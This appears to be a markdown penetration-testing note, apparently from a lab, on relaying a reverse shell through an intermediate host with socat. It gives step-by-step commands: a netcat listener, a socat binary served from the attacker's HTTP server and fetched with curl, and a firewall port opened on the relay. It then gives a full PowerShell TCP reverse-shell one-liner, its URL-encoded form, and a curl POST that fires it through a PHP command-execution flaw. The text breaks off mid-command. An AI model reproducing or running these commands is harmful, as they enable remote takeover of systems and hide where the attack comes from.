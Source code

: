 
## Setup a relay
* attacker: setup a listener with netcat
  ```
  nc -nvlp 3333
  listening on [any] 3333 ...
  ```
* relay host: setup a relay with socat
  * download latest socat release http://www.dest-unreach.org/socat/
  * compile code
    * gunzip file
    * tar -xvf file
    * cd dir
    * ./configure
    * make
    * make install
    * ./socat -h
  * copy socat-[username] to the /tmp dir on the relay host
    * attacker: sudo python3 -m http.server 80
    * relay host: curl http://[attacker_ip]/socat-[username] -O /tmp/socat-[username]
    * relay host: chmod +x /tmp/socat-[username]
  * open port on relay host to catch reverse shell from the target to relay to the attacker
    ```
    firewall-cmd --zone=public --add-port 32081/tcp
    success
    ```
  * open socat relay on relay host
    ```
    ./socat-[username] tcp-l:32081 tcp:10.50.99.2:3333 &
    [2] 5361
    ```
* target host: using the original exploit that allows us to run any command, we will execute a powershell script that creates a reverse shell to the relay host which then connects back to the attack box
  * powershell script, modify IP and PORT
    ```
    powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```
  * use URL encoder to encode the powershell script so we can pass the payload via curl
    * https://www.urlencoder.org/
    ```
    powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.98.200%27
    %2C32081%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes
    %2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B
    %24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%
    20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Fl
    ush%28%29%7D%3B%24client.Close%28%29%22
    ```
  * use curl to execute the payload through the exploitable php module that runs any command, prefix your encoded powershell script with a=
    ```
    curl -X POST -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.98.200%27